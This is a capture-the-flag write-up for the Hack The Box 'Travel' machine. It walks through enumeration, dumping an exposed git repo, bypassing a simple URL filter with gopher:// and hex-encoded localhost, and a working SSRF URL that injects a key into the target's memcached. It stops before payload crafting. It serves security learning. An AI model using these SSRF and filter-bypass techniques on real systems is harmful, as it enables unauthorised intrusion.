# HTB - Travel

## HTB - Travel

### Overview


Short description to include any strange things to be dealt with

### Useful Skills and Tools

**Useful thing 1**

* Browse and edit LDAP with Apache Directory Studio \(need link\)

**Useful thing 2**

* SSH port forwarding to connect to remote ports that are closed \(need sudo to use ports under 1024\)

### Enumeration

#### Nmap scan

I started my enumeration with an nmap scan of `10.10.10.189`. The options I regularly use are: `-p-`, which is a shortcut which tells nmap to scan all ports, `-sC` is the equivalent to `--script=default` and runs a collection of nmap enumeration scripts against the target, `-sV` does a service scan, and `-oG <name>` saves the output with a filename of `<name>`, `-n` stops DNS resolution of hosts, and `-v` allows me to see progress as it discovers things rather than waiting for the full report when it finishes.

```text
┌──(zweilos㉿kali)-[~]
└─$ nmap -n -p- -sC -sV --reason -v 10.10.10.189 -oG travel
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-13 17:17 EDT

Nmap scan report for 10.10.10.189
Host is up, received syn-ack (0.042s latency).

PORT    STATE SERVICE  REASON  VERSION
22/tcp  open  ssh      syn-ack OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     syn-ack nginx 1.17.6
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.17.6
|_http-title: Travel.HTB
443/tcp open  ssl/http syn-ack nginx 1.17.6
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.17.6
|_http-title: Travel.HTB - SSL coming soon.
| ssl-cert: Subject: commonName=www.travel.htb/organizationName=Travel.HTB/countryName=UK
| Subject Alternative Name: DNS:www.travel.htb, DNS:blog.travel.htb, DNS:blog-dev.travel.htb
| Issuer: commonName=www.travel.htb/organizationName=Travel.HTB/countryName=UK
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2020-04-23T19:24:29
| Not valid after:  2030-04-21T19:24:29
| MD5:   ef0a a4c1 fbad 1ac4 d160 58e3 beac 9698
|_SHA-1: 0170 7c30 db3e 2a93 cda7 7bbe 8a8b 7777 5bcd 0498
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Nmap done: 1 IP address (1 host up) scanned in 15.35 seconds
```

The only ports that nmap showed as open on this machine were 22 \(SSH\), 80 \(HTTP\), and 443 \(HTTPS\). From the nmap DNS NSE script scan I saw three virtual hosts for this IP:

```text
Subject Alternative Name: DNS:www.travel.htb, DNS:blog.travel.htb, DNS:blog-dev.travel.htb
```

I added all three to my `/etc/hosts` file so I could connect.


Connecting to `www.travel.htb` I found a "coming soon" type site with a countdown. On this site I found a contact information section with a potential a user email format.

```text
CONTACT INFORMATION
hello@travel.htb Park Ave, 987, London, United Kingdom.
```



Checking port 443 only led to an under construction site with no useful information.


The Firefox plugin `wappalyzer` told me the site was using WordPress version 5.4. I fired up `wpscan` to check the site for vulnerabilities using the syntax`wpscan --url http://blog.travel.htb/ --enumerate`.

```text
robots.txt found: http://blog.travel.htb/robots.txt
 | Interesting Entries:
 |  - /wp-admin/
 |  - /wp-admin/admin-ajax.php
[+] XML-RPC seems to be enabled: http://blog.travel.htb/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access

[+] WordPress readme found: http://blog.travel.htb/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[i] User(s) Identified:

[+] admin
 | Found By: Author Posts
```


I discovered a WordPress login page at `http://blog.travel.htb/wp-login.php` but there was nothing else useful from the scan.



I tried resetting my password since this version of WordPress was reportedly vulnerable to information leakage through this, but it did not lead to anything useful.



The page at `xmlrpc.php` likewise did not seem to be useful at this time.


Navigating to the virtual host `blog-dev` also seemed to be a dead-end, so I started another Dirbuster scan to see if anything useful that I could access could be found.



There was an RSS feed using the Awesome RSS WordPress plugin on the `blog` site.



In the source code of the page I noticed a section that said `DEBUG` that caught my eye. I didn't know what to do with it, but it seemed interesting.



There was also a section that talked about using "Additional CSS" and importing it from the `dev` site. This seemed like a potential way to get code to cross domains.



Another interesting find was the raw XML output that feeds the RSS page. Perhaps there was an XML deserialization vulnerability in the site.

Since the `wpscan` results didn't seem to yield any useful information I checked out my Dirbuster scan of the `dev-blog` site and looked for interesting directories.



I found a potentially accessible git repo while scanning `blog-dev` with dirbuster.

_The dirbuster scan also shows that some security has been put in place against automated scanners. I could see the repeated chain of /./ dirs that told me the scanner was stuck. After telling it to ignore those directories it found the `git` directory._

```text
┌──(zweilos㉿kali)-[~/htb/travel]
└─$ python3 ~/.local/bin/git-dumper/git-dumper.py http://blog-dev.travel.htb/ gitdump
```

I made a folder named `gitdump` to dump the contents of the git repo into and ran `git-dumper` \(from [https://github.com/arthaud/git-dumper](https://github.com/arthaud/git-dumper)\) to clone the repository.

```text
┌──(zweilos㉿kali)-[~/htb/travel/gitdump]
└─$ ls -la          
total 24
drwxr-xr-x 3 zweilos zweilos 4096 Sep 18 20:21 .
drwxr-xr-x 4 zweilos zweilos 4096 Sep 18 20:17 ..
drwxr-xr-x 7 zweilos zweilos 4096 Sep 18 20:21 .git
-rwxr-xr-x 1 zweilos zweilos  540 Sep 18 20:21 README.md
-rwxr-xr-x 1 zweilos zweilos 2970 Sep 18 20:21 rss_template.php
-rwxr-xr-x 1 zweilos zweilos 1387 Sep 18 20:21 template.php

┌──(zweilos㉿kali)-[~/htb/travel/gitdump]
└─$ ls -la .git
total 48
drwxr-xr-x 7 zweilos zweilos 4096 Sep 18 20:21 .
drwxr-xr-x 3 zweilos zweilos 4096 Sep 18 20:21 ..
-rw-r--r-- 1 zweilos zweilos   13 Sep 18 20:21 COMMIT_EDITMSG
-rw-r--r-- 1 zweilos zweilos   92 Sep 18 20:21 config
-rw-r--r-- 1 zweilos zweilos   73 Sep 18 20:21 description
-rw-r--r-- 1 zweilos zweilos   23 Sep 18 20:21 HEAD
drwxr-xr-x 2 zweilos zweilos 4096 Sep 18 20:21 hooks
-rw-r--r-- 1 zweilos zweilos  297 Sep 18 20:21 index
drwxr-xr-x 2 zweilos zweilos 4096 Sep 18 20:21 info
drwxr-xr-x 3 zweilos zweilos 4096 Sep 18 20:21 logs
drwxr-xr-x 7 zweilos zweilos 4096 Sep 18 20:21 objects
drwxr-xr-x 3 zweilos zweilos 4096 Sep 18 20:21 ref
```

The repository appeared to be the source code for the Awesome RSS application I saw earlier. The `README.md` file described the current status of the project.

```text
# Rss Template Extension

Allows rss-feeds to be shown on a custom wordpress page.

## Setup

* `git clone https://github.com/WordPress/WordPress.git`
* copy rss_template.php & template.php to `wp-content/themes/twentytwenty` 
* create logs directory in `wp-content/themes/twentytwenty` 
* create page in backend and choose rss_template.php as theme

## Changelog

- temporarily disabled cache compression
- added additional security checks 
- added caching
- added rss template

## ToDo

- finish logging implementation
```



The PHP file `rss_template.php` parses URLs and then creates SimplePie objects from them and sets that object's cache location to a local memcache. SimplePie is a WordPress plugin that allows for RSS feeds in php-based sites. . Feeds are requested from the `custom_feed_url` parameter if it exists, otherwise it defaults to `http://www.travel.htb/newsfeed/customfeed.xml` which I found earlier through dirbuster.

[Memcached](https://memcached.org/) is used to cache requests in memory in the form of key-value pairs so that they can be retrieved quickly without making multiple requests. In this instance the memcache keys are prefixed with `xct_` when they are stored.



There was further evidence of website security in the file `template.php`. It looked like they were trying to implement a rudimentary web application firewall by filtering out any requests that contained `file://`, `@`, `-o`, `-F`, or attempts to access the localhost. Even though some URL filtering is used, there are still many ways to bypass this. For example, `ftp://` or even `gopher://` could be used instead of `file://`, and if the localhost needs to be directly referenced different encoding schemes could be used. For example, 127.0.0.1 in hex is `0x7F000001`, and in decimal `2130706433`. Most URL parsers can automatically translate addresses no matter which numbering scheme is used.

The TemplateHelper class uses the `file_put_contents()` function to write data to a file in the `/logs/` directory. This method is called from the `__construct()` and `__wakeup()` functions through the `init()` function. These two functions are known as "[magic methods](https://www.php.net/manual/en/language.oop5.magic.php)" in PHP and are triggered when certain actions happen. For example, the `__wakeup()` method is called when an object is deserialized. Since these are public functions, they can be called from other PHP files that reference this document, such as seen in `rss_template.php`.



The `rss_template.php` also has code that includes a `debug.php` if the parameter `debug` is set. This is what I had seen in the source code of the `/awesome-rss` site. After noticing this in the PHP code I went back to the same page to see if I could trigger this to do something. I set the debug flag by typing `http://blog.travel.htb/awesome-rss?debug` in the URL bar and got back something different in the page's source code than before.



Using the `debug` parameter added a bit of deserialized PHP code to the middle of the page, but there was nothing that seemed immediately useful. I did notice that the key portion of the output was prefixed with `_xct` like described in the PHP code.

The `url_get_contents()` function in `rss_template.php` allows for the import of a custom URL through the `custom_feed_url` attribute, so I hosted a web server using python SimpleHTTPServer and accessed my test page by loaded my custom URL using this link: [http://blog.travel.htb/awesome-rss/?custom\_feed\_url=http://10.10.15.53:8090/test.html](http://blog.travel.htb/awesome-rss/?custom_feed_url=http://10.10.15.53:8090/test.html)



```text
┌──(zweilos㉿kali)-[~/htb/travel]
└─$ python -m SimpleHTTPServer 8090
Serving HTTP on 0.0.0.0 port 8090 ...
10.10.10.189 - - [18/Sep/2020 20:59:47] "GET / HTTP/1.1" 200 -
10.10.10.189 - - [18/Sep/2020 20:59:47] "GET / HTTP/1.1" 200 -
10.10.10.189 - - [18/Sep/2020 20:59:47] "GET /10-awesome-rss.png HTTP/1.1" 200 -
10.10.10.189 - - [18/Sep/2020 20:59:47] "GET /11-feed-xml.png HTTP/1.1" 200 -
10.10.10.189 - - [18/Sep/2020 20:59:48] "GET /8-xmlrpc.png HTTP/1.1" 200 -
10.10.10.189 - - [18/Sep/2020 21:04:23] "GET /test.html HTTP/1.1" 200 -
10.10.10.189 - - [18/Sep/2020 21:04:23] "GET /test.html HTTP/1.1" 200 -
```

Unfortunately the test did not actually load anything on the page, though I noticed that it did reach back to my server and pull the contents of the directory, including pulling some .png files automatically \(and interestingly also including a .netxml file I had in the directory from playing around with airodump-ng earlier that day.\)

This confirmed the SSRF vulnerability that the rudimentary PHP WAF was trying to protect against, though I still needed to figure out how to make it run code. Storing it in the memcached key that I saw being loaded through `debug.php` seemed like a likely route. Since directly referencing file includes in a URL using the most common methods were blocked, I needed to to use a less common method. Searching for SSRF file inclusion bypass led me to [https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf).



This presentation from Black Hat included one case study where the researcher found a vulnerability where they were able to use SSRF to exploit Memcached. This example looked like exactly what I needed.



From `rss_template.php` I found the syntax to connect including the address `127.0.0.1:11211`. Since the data to be included has to come from the local machine, I needed a way to embed it without pulling files from my machine. After doing some research, I decided to try doing this using the [gopher protocol](https://en.wikipedia.org/wiki/Gopher_%28protocol%29). Gopher is an older protocol that is used to access resources over a network but is still supported by most browsers as well as tools such as cURL.  The Gopher protocol was first described in [RFC 1436](https://tools.ietf.org/html/rfc1436). IANA assigned it TCP port 70, though this is rarely ever used.

 I sent a request in the browser to test this out using my customized URL, using the hex-encoded IP `0x7F000001` in place of `127.0.0.1`.

```text
http://blog.travel.htb/awesome-rss/?custom_feed_url=gopher://0x7F000001:11211/_%0d%0aset%20TEST%204%200%204%0d%0atest%0d%0a
```

This creates a key named `TEST` in memcached with the value `test`. Using the `?debug` flag again after requesting the above URL returns the following:

```markup
<!--
DEBUG
 ~~~~~~~~~~~~~~~~~~~~~ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ 
| TEST | test |
| xct_4e5612ba07(...) | a:4:{s:5:"child";a:1:{s:0:"";a:1:{(...) |
 ~~~~~~~~~~~~~~~~~~~~~ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~ 
-->
```

My test key was successfully cached! Now I had to see if I could use this to exploit the site. Since memcached stores PHP objects in a serialized format it can be exploited by injecting a malicious object and triggering it through unserialization using the `__wakeup()` method I saw earlier. The code from the git dump didn't seem to have any methods for direct deserializion, so I looked at the SimplePie plugin source code on GitHub to see if it held any clues.

### SimplePie code review


Beware, the following section is a labyrinthine mess of tracing function calls across multiple libraries and classes.  I'll try to explain as best I can, but if you would rather skip this section click [here](travel-write-up.md#crafting-the-payload).



